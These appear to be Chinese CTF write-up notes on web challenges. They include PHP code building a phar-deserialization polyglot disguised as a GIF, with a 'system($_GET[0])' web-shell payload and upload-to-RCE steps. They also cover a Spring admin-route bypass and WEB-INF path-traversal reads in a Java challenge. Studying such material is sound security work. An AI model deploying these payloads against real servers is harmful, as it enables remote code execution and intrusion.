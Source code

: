```php
<?php
class AnyClass{
    var $output = 'echo "ok";';
}
 
$o = new AnyClass();
$o->output = 'system($_GET[0]);';
 
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
$phar->setMetadata($o); //将自定义meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
$phar->stopBuffering();
```
rename为phar.jpg

上传后文件名变为 `username+jpg`
再次上传文件,文件名修改为`phar:///var/www/html/leijk`即可rce



# 2023浙江大学生省赛初赛
#java 
https://www.yuque.com/dat0u/ctf/zticsggntervfyue wp
有admin路由,但是有路由限制
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231115234413.png)

看不懂后面的反序列化,只有前面的spring配置绕过
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231115234225.png)
漏洞原因在`/admin*`只匹配单层url,如`/admin/a`,`admin/**`才能匹配多级目录,所以这里属于开发失误,所谓的限制相当于null,但是需要注意请求必须有csrf_token



# NSS
### [GKCTF 2021]babycat
#java 



读取`web.xml`=>`../../WEB-INF/web.xml`

读取`../../WEB-INF/classes/com/web/servlet/registerServlet.class`
```java
//循环找到最后一个role
	String var = req.getParameter("data").replaceAll(" ", "").replace("'", "\"");
	Pattern pattern = Pattern.compile("\"role\":\"(.*?)\"");
	Matcher matcher = pattern.matcher(var);
	while (matcher.find()) {
		role = matcher.group();
	}
//替换为role的值为guest
	if (!StringUtils.isNullOrEmpty(role)) {
		person = (Person) gson.fromJson(var.replace(role, "\"role\":\"guest\""), Person.class);
	} else {
		person = (Person) gson.fromJson(var, Person.class);
		person.setRole("guest");
	}

```
